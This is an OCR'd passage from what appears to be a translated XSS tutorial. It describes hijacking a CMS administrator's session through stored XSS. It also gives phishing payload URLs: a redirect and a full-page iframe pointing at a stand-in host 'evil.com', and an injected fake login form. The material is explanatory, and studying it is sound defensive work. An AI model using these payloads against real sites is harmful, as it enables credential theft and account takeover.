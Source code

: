 For example, there is a stored XSS vulnerability in the message system of a CMS. The attacker writes the XSS code into
the message message. When the administrator logs in to the background and checks Yes, the XSS vulnerability will be
triggered. Since XSS is triggered in the background, the attack is The target is an administrator. By injecting
JavaScript code, an attacker can hijack the administrator's session to perform certain operations, thereby achieving the
purpose of elevating permissions.

For example, if an attacker wants to use XSS to add an administrator account, he only needs to use the previous code
audit or other methods to intercept the HTTP request information when adding the administrator account, and then use the
XMLHTTP object to send an HTTP request in the background. The request is accompanied by the cookies of the attacked and
sent to the server together, and then the operation of adding an administrator account can be realized.

### Phishing

- Redirect phishing

      Redirect the current page to a phishing page.
      
      ```text
      http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
      ```

- HTML injection phishing

      Use XSS vulnerabilities to inject HTML or JavaScript code into the page.
      
      ```text
      http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center; "><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password :<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/> </form></div></body></html>
      ```
      
      This code will embed a Form in the normal page.

- iframe fishing

      This method uses the `<iframe>` tag to embed a page in a remote domain to implement phishing.
      
      ```text
      http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>
      ```

- Flash fishing

      Transfer the constructed Flash file to the server and use the `<object>` or `<embed>` tag to reference it on the target
      website.
